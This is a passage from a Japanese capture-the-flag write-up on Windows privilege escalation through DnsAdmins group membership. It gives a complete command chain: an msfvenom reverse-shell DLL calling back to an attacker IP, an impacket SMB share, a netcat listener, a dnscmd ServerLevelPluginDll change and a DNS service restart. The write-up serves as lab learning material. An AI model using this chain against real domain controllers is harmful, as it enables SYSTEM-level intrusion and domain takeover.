 c.f.) 
- [Read Teaming Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
- https://youtu.be/8KJebvmd1Fk
- [日本語resolu手のwriteup](https://qiita.com/MarshMallow_sh/items/52e04ee4166c7b2b345c#dnsadmins%E6%A8%A9%E9%99%90%E3%82%92%E7%94%A8%E3%81%84%E3%81%9F%E6%A8%A9%E9%99%90%E6%98%87%E6%A0%BC)
- https://phackt.com/dnsadmins-group-exploitation-write-permissions

**WindowsのDNSにはカスタムプラグインとしてDLLを読み込む機能がある。<br>（dns.exeがSYSTEM権限で動いているという前提で）そのカスタムプラグインとしてrevshellを
起動するようなDLLを読み込ませればよい！**


#### ryanはDnsAdminsグループに属す：

```
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level
```

#### dnsが動いてることを確認：

```
*Evil-WinRM* PS C:\Users\ryan> Get-Process -Name dns

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   5307    3699    69092      68004              3404   0 dns
```

#### dnsサービスの確認：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

#### マリシャスdll（ペイロード）の作成：

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f dll --platform windows -o rev.dll
```

#### rev.dllがあるディレクトリでsmbサーバを立てる：

（DLLをアップロードすると検疫されてしまうのでその対策）

```
sudo impacket-smbserver kali ./
or
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
```

#### 早めにkali側でlistenerを立てておく：

```
$ nc -nvlp 4444
```

#### ryanのリバースシェル上でマリシャスdllをdnsで設定：
> - According to Microsoft protocol specification, the **ServerLevelPluginDl** operation enables us to load a dll of our choosing.
> - dnscmd.exe already implements this option: `dnscmd.exe /config /serverlevelplugindll \\path\to\dll`
> - When executing this dnscmd.exe command as a user (a member of DnsAdmins), this registry key is populated: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`

*（注意）このマシンは1分ごとに各サービスが再起動するように設定されていることがnote.txtよりわかっている。*

[ryanのリバースシェル上]

```
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe resolute.megabank.local /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll
or
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll
```
レジストリの値`ServerLevelPluginDll`がきちんと我々のマリシャスdllを指し示してることを確認：

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll


ServerLevelPluginDll : \\10.10.14.3\kali\rev.dll
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS
PSChildName          : Parameters
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```

注）kali側のsmbサーバの反応が少し遅いので、そこは動いてないと勘違いしないように！

#### DNSを再起動：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

*Evil-WinRM* PS C:\Users\ryan> sc.exe start dns
```
